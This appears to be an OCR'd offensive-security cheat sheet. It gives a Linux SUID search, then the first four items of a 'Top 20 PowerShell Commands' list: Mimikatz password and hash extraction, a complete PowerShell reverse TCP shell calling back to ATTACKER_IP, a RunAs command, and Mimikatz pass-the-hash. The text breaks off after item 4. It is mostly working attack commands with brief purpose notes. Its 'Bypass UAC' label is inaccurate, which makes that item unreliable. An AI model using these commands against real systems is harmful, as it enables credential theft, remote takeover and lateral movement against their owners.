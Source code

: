 ### 7. Linux Privilege Escalation
Here are some commands for privilege escalation on Linux systems:

#### Find SUID Files
find / -perm -4000 2>/dev/null
- What it does: Lists files with the SUID bit set (potential privilege escalation targets).





---

### **Top 20 PowerShell Commands**

---

### **1. Credential Theft**
#### **Mimikatz-Style Password Extraction**
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```
- **Purpose**: Extracts plaintext passwords, NTLM hashes, and Kerberos tickets from memory.

---

### **2. Reverse Shell**
#### **Reverse TCP Shell**
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | %{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush() }; $client.Close()
```
- **Purpose**: Establishes a reverse shell to an attacker’s machine.

---

### **3. Privilege Escalation**
#### **Bypass UAC**
```powershell
Start-Process "C:\Windows\System32\cmd.exe" -Verb RunAs
```
- **Purpose**: Spawns a command prompt with administrative privileges.

---

### **4. Lateral Movement**
#### **Pass-the-Hash**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:example.com /ntlm:HASH /run:powershell.exe"'
```
- **Purpose**: Authenticates to a remote system using an NTLM hash.

---